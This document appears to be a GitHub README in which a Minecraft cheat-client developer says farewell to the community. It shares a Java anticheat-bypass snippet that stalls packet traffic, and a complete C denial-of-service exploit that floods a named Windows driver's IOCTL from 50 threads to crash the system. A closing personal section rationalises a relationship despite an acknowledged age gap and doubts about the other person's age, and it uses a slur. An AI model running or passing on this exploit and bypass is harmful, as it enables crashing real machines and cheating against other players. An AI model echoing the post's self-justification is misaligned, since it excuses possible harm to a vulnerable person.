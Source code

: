 ### Everything There Was

As a short disclaimer, I'll talk to people that I actually like. I counted a lot of people as "friends," but if you don't see me adding you on a new alias on Discord, then you were just the average "friend" or I don't trust you enough. Explanations for shit are at the bottom of this repository, but for now, I want to share with you guys the projects that I sincerely loved the most w/ code snippets.

### SRT
SRT, what was going to be a community flag-ship multi-server cheat, is now dead. I will obviously work on it, but never will you see a client I develop ever reach the internet again. As much as I say I hated everything I made, truth is, I loved all of it. That god forsaken community just makes me want to hate it, which was the answer I gave to most people. I want to give you, the Minecraft client-development community, some tips as to how things worked. Reminder that I don't know how to format text on GitHub, so bare with me here:

```
// AntiGamingChair Ascension check disabler
case AGC_ASCENSION: {
                if (e.getPacket() instanceof C00PacketKeepAlive) {
                    try {
                        Thread.sleep(5000L);
                    } catch (Exception ex) {
                        ex.printStackTrace();
                    }
                }
                break;
            }
```
           
One of the best things I have ever added to SRT was the disabler above, as funny as-is, this _does_ work. In the times when the first client I ever made, SkyFall, was in development, I was genuinely more eager to learn more than anyone else. The way I went about it was looking at client source codes, and Dort's Meme Client (the good old days) was what I took a glance at. For the Ghostly disabler, I noticed that he used Thread.sleep to sleep the entire packet thread (FYI he does **not** do this anymore). Ever since I saw that, I kept it in the back of my mind for the literal years to come. In late 2021-ish, I decide to try and make some form of a MinemenClub movement disabler, and I remembered his code for the Ghostly disabler, to eventually evolve into the most simple anticheat disabler to date, with the exclusion of simply cancelling transactions and keep alives. To explain what it actually does, it sleeps the netty thread for five seconds each time the client sends a C00 (which is every second). With this method, you essentially delay the sending and receiving of **ALL** packets for the time specified in Thread.sleep. The lesson to be learned from this, is to not be afraid of failure, to not be afraid of what others think, to not be afraid of applying what you learned. I may not have applied this particular lesson, but it will only benefit you. Some of you may be glad that it is over, some of you will be disappointed that it is over. Despite the entirety of the Dortware/Corrosion client community wanting to murder me after an incident, I do highly recommend purchasing their client; it is the best multi-server client that will ever actually release.



### Exploit Development
Some of the other projects that I absolutely loved the most were the Windows kernel exploitation ones. Never have I ever had as much fun as I did doing these. The fact that I am able to completely bug check Windows itself and blame a targeted driver was one of the coolest things to me, and still is to some extent today. It was a huge learning curve, as I jumped from barely any knowledge to going straight into kernel-mode exploit development, but hell I do **not** regret any of it. An example of the most recent denial-of-service exploit is provided below:

```
#pragma warning(disable : 6273)

#include <Windows.h>
#include <stdio.h>

#define TARGET_DEVICE "\\\\.\\BS_HWMIO"
#define TARGET_IOCTL 0x226050

int main(int argc, char** argv);
DWORD WINAPI ioctl_thread(LPVOID lpParam);

DWORD WINAPI ioctl_thread(LPVOID id)
{
	HANDLE driver_handle = CreateFileA(TARGET_DEVICE, GENERIC_READ | GENERIC_WRITE, 0, 0, OPEN_EXISTING, 0, 0);
	if (driver_handle == (HANDLE)-1)
	{
		printf("\n[-] Unable to obtain a handle to the \"%s\" driver. Handle Value: 0x%p (%d), Error: 0x%x (%d)", TARGET_DEVICE, driver_handle, driver_handle, TARGET_IOCTL, TARGET_IOCTL);
		return 1;
	}

	printf("\n[*] Thread ID %d launched successfully.", (int)id);

	while (1)
	{
		DeviceIoControl(driver_handle, TARGET_IOCTL, 0, 0, 0, 0, 0, 0);
	}

	return 0;
}

int main(int argc, char** argv)
{
	HANDLE driver_handle = CreateFileA(TARGET_DEVICE, GENERIC_READ | GENERIC_WRITE, 0, 0, OPEN_EXISTING, 0, 0);
	char unused = 0;

	printf("[!] Exploit written by uncodable.\n[!] Target Device Driver Symbolic Link: %s\n[!] Target IO Control Code: 0x%x (%d)\n[!] Beginning denial-of-service exploit...", TARGET_DEVICE, TARGET_IOCTL, TARGET_IOCTL);

	if (driver_handle == (HANDLE)-1)
	{
		printf("\n[-] Unable to obtain a handle to the \"%s\" driver. Handle Value: 0x%p (%d), Error: 0x%x (%d)", TARGET_DEVICE, driver_handle, driver_handle, TARGET_IOCTL, TARGET_IOCTL);
		unused = getchar();
		return 1;
	}
	printf("\n[+] Obtained a handle to the \"%s\" driver. Handle Value: 0x%p (%d)\n[!] Spinning up threads, ready to race!", TARGET_DEVICE, driver_handle, driver_handle);
	
	CloseHandle(driver_handle);

	for (int i = 0; i < 50; i++)
	{
		CreateThread(NULL, 0, ioctl_thread, i, 0, NULL);
	}

	printf("\n[!] It's racing time!");
	unused = getchar();

	return 0;
}
```

... mother of god, is probably what you're thinking. You may be thinking that, but I am looking at what I would have considered an art form. The ability to think outside of the box and actually turn it into something like this always fascinated me, as it always came off as little to no one else could (with that obviously being **false**). What fascinates me even more is the ability to just take complete control over a program's execution flow, redirecting its flow to execute my own code. This right here, is single-handedly the reason why I **LOVE** exploit development and exploits in general as much as I do. There are a lot of things that I like to do, the examples being Windows kernel research, exploit development, bug check codes and analyzing crash dumps, debugging (somewhat lmao), writing code, and breaking things in the greatest of ways possible. Putting it all together, gives me the ability to make these. These are all outcomes of pure motivation. With that being said, the lesson to be learned from this is to pursue what you've dreamed to be. If you wanted to make a hacked client, you now have the motivation; all there is left is to put in the work. Trust me, all of you guys will make it there.



Now, for the very last thing that I will cover, and I do not dare add its own specific title bar for, the actual incident that arised. Just because I am addressing this, does not mean I'm coming back to the community; I want to do it because this was the first thing in mind, besides nuking every account I ever owned. Avri, someone that I used to talk to, is someone that I was actually talking to, because I genuinely felt relaxed talking to her. Eventually, the two of us actually began trusting each other enough to **literally share info** (which _I_ am not leaking), to solidfy trust even further. I will not be the one to get into the details of the things that I said, but I know what I said. Am I necessarily proud of what I said? You're fucking hilarious if you say "yeah," but understanding the target audience for this explanation, it does not bring an expression of surprise. And to be clear, yeah I aware of the age gap, but I am not even sure if I was lied to anymore. The only two standing, valid reasons why I even continued anyway was because of this thought here: "What age difference sounds better? 20 to 30 or 60 to 70?" I would imagine you picked the latter choice. Now, what if someone were to have carried out a relationship quietly for years to come, then finally made it clear when everything is finally in their acceptable places? People would be surprised, but they would not care. It is only when the information is leaked at its earliest stages, and me consisting of having consistent shit-ass luck, things like this do not surprise me anymore. To not get too off-topic, the other reason is the fact that she was not an asshole at first. I think you (the reader) knew me well enough to know how much I hate assholes, so this was astounding to me as-is. Unfortunately, though, the cliche lesson I learned in English class years ago did not click into memory, the classic that everyone knows: "Don't judge a book by its cover." With all of that now detailed, I would rather stray away from sounding like those generic apology videos scattered about, so I will leave you with this: I am sorry that I am lonely, and decided to go out of my way to try and fix it, like I've wanted to do for the majority of my life.

If you need code snippets of SRT, as now I am genuinely willing to provide **some** (not all), you may ask Cystemz to forward your message to me. I will be telling him to filter out some retarded messages, so I only get the ones that matter to me the most. I'm sorry, but my time in the community is over, while projects like SRT and Rainstorm will thrive forever after.
